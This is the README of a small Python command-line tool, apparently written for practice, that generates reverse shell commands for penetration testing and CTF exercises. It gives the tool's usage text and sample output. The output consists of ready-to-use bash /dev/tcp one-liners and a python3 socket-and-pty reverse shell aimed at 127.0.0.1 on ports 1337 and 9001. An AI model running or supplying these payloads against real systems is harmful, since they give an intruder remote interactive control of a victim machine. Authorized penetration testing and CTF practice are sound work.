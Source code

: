 # Shellgen.py 

## The idea for this is project is for some practice python, as well as to make a useful tool for pentesting / CTF's

## The tool is used to generate various types of reverse shell commands from the CLI.

## The usage is very simple

    usage: shellgen.py [-h] [-p <attacker port>] [-m method to use] <attacker ip>
    
    Command line reverse shell generator
    
    positional arguments:
      <attacker ip>       Attacker ip address to receive the connection back from victim machine
    
    optional arguments:
      -h, --help          show this help message and exit
      -p <attacker port>  Attacker port to listen on. Default = 1337
      -m method to use    A comma seperated list of reverse shell methods. Default is bash,python3,nc
 

## Samples 
- basic usage uses the three default methods, bash python3, and nc and default port l337

    python3 shellgen.py 127.0.0.1

    ['bash', 'python3', 'nc']
    
    bash: 
      bash -i >& /dev/tcp/127.0.0.1/1337 0>&1 
      0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; sh <&196 >&196 2>&196 
      /bin/bash -l > /dev/tcp/127.0.0.1/1337 0<&1 2>&1
    
    python3: 
      export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

- specifying a method and port
    
    python3 shellgen.py 127.0.0.1 -m bash -p 9001

    ['bash']

    bash: 
      bash -i >& /dev/tcp/127.0.0.1/9001 0>&1 
      0<&196;exec 196<>/dev/tcp/127.0.0.1/9001; sh <&196 >&196 2>&196 
      /bin/bash -l > /dev/tcp/127.0.0.1/9001 0<&1 2>&1
                                                           


## To do
- Add more methods for rev shells
- add more functionality like base64 or url encoding
- add option to save to file
